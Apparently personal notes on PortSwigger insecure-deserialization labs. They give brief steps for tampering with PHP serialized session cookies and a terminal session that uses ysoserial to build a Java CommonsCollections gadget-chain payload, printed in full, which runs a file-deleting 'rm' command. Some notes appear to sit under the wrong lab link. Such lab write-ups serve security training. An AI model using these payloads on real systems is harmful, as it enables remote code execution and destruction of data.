 [https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization) 

-   login    
-   change token avatar_link
-   O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"russibxh8c6vkhdvy75iyj6g8a88zvb2";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}7

[https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)

-   Change session cookie username to administrator
-   error message about invalid access token,
-   Lists access tokens in error msg
-   brute force access tokens there

[https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects) 
-   Login
-   Session cookie put in cyberchef
-   URL decode, Base64 decode
-   Change admin to 1
-   Refresh webpage and access admin panel

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php

```
┌──(kali㉿kali)-[/tmp]
└─$ echo  "rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACB0ZzMydXd6ejR1MHZ2czR3a3BmemtrNTJ5ZG5jaW4wcXQABndpZW5lcg==" | base64 -d > file
                                                                                                                                                                       
┌──(kali㉿kali)-[/tmp]
└─$ file file                             
file: Java serialization data, version 5
                                                                                                                                                                       
┌──(kali㉿kali)-[/tmp]
└─$ wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar                         
--2022-11-17 08:13:22--  https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar [following]
--2022-11-17 08:13:22--  https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
Reusing existing connection to github.com:443.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/29955458/bb6518d9-ffb7-4437-8b6f-db3659467c5c?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20221117%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20221117T131323Z&X-Amz-Expires=300&X-Amz-Signature=d8ff71166aad1c5c0f84ac0b9311e14766cacf5b74a599c9480cfda4881905c7&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=29955458&response-content-disposition=attachment%3B%20filename%3Dysoserial-all.jar&response-content-type=application%2Foctet-stream [following]
--2022-11-17 08:13:22--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/29955458/bb6518d9-ffb7-4437-8b6f-db3659467c5c?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20221117%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20221117T131323Z&X-Amz-Expires=300&X-Amz-Signature=d8ff71166aad1c5c0f84ac0b9311e14766cacf5b74a599c9480cfda4881905c7&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=29955458&response-content-disposition=attachment%3B%20filename%3Dysoserial-all.jar&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 59525376 (57M) [application/octet-stream]
Saving to: ‘ysoserial-all.jar’

ysoserial-all.jar                         100%[====================================================================================>]  56.77M  21.9MB/s    in 2.6s    

2022-11-17 08:13:25 (21.9 MB/s) - ‘ysoserial-all.jar’ saved [59525376/59525376]

                                                                                                                                                                       
┌──(kali㉿kali)-[/tmp]
└─$  java -jar ysoserial-all.jar CommonsCollections7 'rm /home/carlos/morale.txt' > payload
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
                                                                                                                                                                       
┌──(kali㉿kali)-[/tmp]
└─$ file payload
payload: Java serialization data, version 5
                                                                                                                                                                       
┌──(kali㉿kali)-[/tmp]
└─$ wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar                                         130 ⨯
--2022-11-17 08:46:52--  https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
Resolving jitpack.io (jitpack.io)... 104.26.8.99, 104.26.9.99, 172.67.72.129, ...
Connecting to jitpack.io (jitpack.io)|104.26.8.99|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: /com/github/frohoff/ysoserial/master-2874a69f61-1/ysoserial-master-2874a69f61-1.jar [following]
--2022-11-17 08:46:53--  https://jitpack.io/com/github/frohoff/ysoserial/master-2874a69f61-1/ysoserial-master-2874a69f61-1.jar
Reusing existing connection to jitpack.io:443.
HTTP request sent, awaiting response... 200 OK
Length: 59525398 (57M) [application/java-archive]
Saving to: ‘ysoserial-master-SNAPSHOT.jar’

ysoserial-master-SNAPSHOT.jar         100%[======================================================================>]  56.77M  10.7MB/s    in 6.7s    

Last-modified header invalid -- time-stamp ignored.
2022-11-17 08:47:01 (8.46 MB/s) - ‘ysoserial-master-SNAPSHOT.jar’ saved [59525398/59525398]

                                                                                                                                                     
┌──(kali㉿kali)-[/tmp]
└─$ urlencode $(java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64) 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh%20cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u%20cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci%2F5hPArsQjM%20AgACTAAJZGVjb3JhdGVkcQB%2BAAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv%20Y29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwc3IAQG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0%20aW9uczQuY29tcGFyYXRvcnMuQ29tcGFyYWJsZUNvbXBhcmF0b3L79JkluG6xNwIAAHhwc3IAO29y%20Zy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVy%20MMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAuW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVj%20dGlvbnM0L1RyYW5zZm9ybWVyO3hwdXIALltMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25z%20NC5UcmFuc2Zvcm1lcjs5gTr7CNo%2FpQIAAHhwAAAAAnNyADxvcmcuYXBhY2hlLmNvbW1vbnMuY29s%20bGVjdGlvbnM0LmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25z%20dGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5p%20bnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAP29yZy5hcGFjaGUu%20Y29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuSW5zdGFudGlhdGVUcmFuc2Zvcm1lcjSL9H%2Bk%20htA7AgACWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGph%20dmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAFz%20cgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVz%20SW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVj%20b2Rlc3QAA1tbQlsABl9jbGFzc3EAfgAUTAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFf%20b3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD%2F%2F%2F%2F%2FdXIAA1tb%20Qkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX%2BAYIVOACAAB4cAAABqzK%2Frq%2BAAAAMgA5CgADACIH%20ADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4B%20AAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRh%20YmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2Vy%20aWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9y%20bQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9z%20dW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxl%20cjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0%20Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2Vy%20aWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3Vu%20L29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUv%20eG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwv%20aW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1%20TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdo%20YW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJp%20YWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5%20c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20v%20c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z%20bGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50%20ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9H%20YWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUo%20KUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQAacm0gL2hvbWUvY2FybG9zL21vcmFsZS50%20eHQIADABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAy%20ADMKACsANAEADVN0YWNrTWFwVGFibGUBABx5c29zZXJpYWwvUHduZXIzMDIwMjI1MTcyNjc5AQAe%20THlzb3NlcmlhbC9Qd25lcjMwMjAyMjUxNzI2Nzk7ACEAAgADAAEABAABABoABQAGAAEABwAAAAIA%20CAAEAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAALwAOAAAADAABAAAA%20BQAPADgAAAABABMAFAACAAwAAAA%2FAAAAAwAAAAGxAAAAAgANAAAABgABAAAANAAOAAAAIAADAAAA%20AQAPADgAAAAAAAEAFQAWAAEAAAABABcAGAACABkAAAAEAAEAGgABABMAGwACAAwAAABJAAAABAAA%20AAGxAAAAAgANAAAABgABAAAAOAAOAAAAKgAEAAAAAQAPADgAAAAAAAEAFQAWAAEAAAABABwAHQAC%20AAAAAQAeAB8AAwAZAAAABAABABoACAApAAsAAQAMAAAAJAADAAIAAAAPpwADAUy4AC8SMbYANVex%20AAAAAQA2AAAAAwABAwACACAAAAACACEAEQAAAAoAAQACACMAEAAJdXEAfgAfAAAB1Mr%2Bur4AAAAy%20ABsKAAMAFQcAFwcAGAcAGQEAEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx%205mnuPG1HGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZh%20cmlhYmxlVGFibGUBAAR0aGlzAQADRm9vAQAMSW5uZXJDbGFzc2VzAQAlTHlzb3NlcmlhbC9wYXls%20b2Fkcy91dGlsL0dhZGdldHMkRm9vOwEAClNvdXJjZUZpbGUBAAxHYWRnZXRzLmphdmEMAAoACwcA%20GgEAI3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkRm9vAQAQamF2YS9sYW5nL09iamVj%20dAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0%20cwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgAAQABAAoACwABAAwAAAAvAAEAAQAAAAUqtwAB%20sQAAAAIADQAAAAYAAQAAADwADgAAAAwAAQAAAAUADwASAAAA
```

![image](https://user-images.githubusercontent.com/18213722/202464674-3a07a2a5-ba90-4c6a-85e3-b4599923a9fa.png)

It was solved right after that

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons


https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain


https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain

